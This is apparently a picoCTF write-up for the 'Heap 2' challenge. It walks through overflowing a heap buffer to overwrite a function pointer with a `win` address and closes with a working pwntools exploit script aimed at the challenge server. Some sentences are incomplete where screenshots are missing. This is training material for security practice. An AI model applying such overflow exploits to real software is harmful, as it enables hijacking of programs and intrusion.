






# CTF Write-Up: [Heap 2][Binary Exploitation]

## Description
>Can you handle function pointers?


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{and_down_the_road_we_go_dde41590}`)

## Difficulty
- **Difficulty Level:** [medium]

## Tools Used
- pwntools
- gdb
## Write-Up

### Preparatory Phase
Static analysis of the source code shows our likely target function: .
Now running the binary we receive a similar image was from the [Heap 1](#) exercise: 

Again the offset between the start of the buffer and bico is 32 bytes.
Using `gdb` we find that the instruction pointer `rip` has the value `bico`. 


Therefore a natural attack would be to override the instruction pointer with the address to the `win` function. Using gdb once again :), we find that: 

Now we have all the pieces of information required to conduct an attack.
### Attack Phase
Once again like from [Heap 1](#) we write 32 bytes worth of junk in order to reach the start of the instruction pointer. 

Then we write the address `0x4011a0` ensuring we are packing in little-endian format as running `file chall` we find out:  The key areas we look out for in that command is whether it is a 32 or 64-bit architecture and/or its endianess denoted by `LSB executable` for little endian and `MSB executable` for big endianess.

Using a python script we were able to obtain: 
### Final Solution/Payload
```py
from pwn import *

local = False 

host = 'mimas.picoctf.net'
port = 50693

io = remote(host, port)
payload = b'A' * 32
# 0x4011a0
payload += p64(0x4011a0)

print(payload)
io.recvuntil('Enter your choice:')
io.sendline(b'2')
print(io.recvuntil('Data for buffer: '))
io.sendline(payload)
io.recv()
io.sendline(b'4')
print(io.recvall())

```

### Lessons Learnt
- Ensure to use `p64(<address>)` when dealing with 64-bit binaries and `p32(<address>)` when dealing with 32-bit binaries. 
## References
- https://www.linuxquestions.org/questions/linux-newbie-8/what-is-the-difference-between-lsb-and-msb-executables-430701/
- https://owasp.org/www-community/vulnerabilities/Buffer_Overflow

